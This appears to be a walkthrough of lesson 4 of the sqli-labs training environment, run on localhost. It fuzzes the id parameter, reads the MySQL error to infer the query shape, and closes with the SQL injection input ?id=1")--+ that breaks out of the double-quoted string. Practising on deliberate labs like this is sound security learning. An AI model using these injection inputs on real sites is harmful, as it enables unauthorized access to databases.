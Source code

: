 #### 4. Lesson 4 - ``GET - Error based - Double Quote - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-4/
http://127.0.0.1/sqli-labs/Less-4/?id=1
http://localhost/sqli-labs/Less-4/?id=1'
```

![](images/4/1.png)

![](images/4/2.png)

![](images/4/3.png)

###### Vulnerability Breakdown

```
http://localhost/sqli-labs/Less-4/?id=1"
```

![](images/4/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

```
'"1"") LIMIT 0,1' at line 1
'"1"") LIMIT 0,1'
'   "1"") LIMIT 0,1   '
'   "1"   ") LIMIT 0,1   '
'   "  1"   ") LIMIT 0,1   '
1"
```

```sql
select login_name, password from table where id=("our_input")
```

###### Fix the query

```
http://localhost/sqli-labs/Less-4/?id=1")--+
```

![](images/4/5.png)